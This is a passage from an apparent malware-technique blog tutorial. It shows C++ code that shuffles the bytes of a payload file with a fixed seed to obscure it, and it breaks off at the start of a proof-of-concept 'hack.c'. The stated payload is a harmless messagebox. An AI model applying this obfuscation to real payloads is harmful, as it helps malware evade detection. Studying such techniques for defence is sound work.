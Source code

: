 ![malware](/assets/images/135/2024-09-30_18-30.png){:class="img-responsive"}    

As usually, for simplicity, it's just `meow-meow` messagebox payload.     

Then add logic to shuffle file and save it to another:     

```cpp
// function to shuffle a file and save it
void shuffle_file_and_save(const char *input_file, const char *output_file, unsigned int seed) {
  shuffle_bytes(input_file, output_file, seed);
}

int main() {
  const char *input_file = "meow.bin";
  const char *shuffled_file = "shuffled.bin";
  unsigned int seed = 12345;

  // Shuffle the input file and save it
  shuffle_file_and_save(input_file, shuffled_file, seed);

  return 0;
}
```

Finally, our simple PoC looks like this (`hack.c`):     

```cpp
/*
 * hack.c
 * shuffle bytes in payload
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/09/30/malware-trick-43.html
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <windows.h>

// function to shuffle the bytes of a file
void shuffle_bytes(const char *input_file, const char *output_file, unsigned int seed) {
```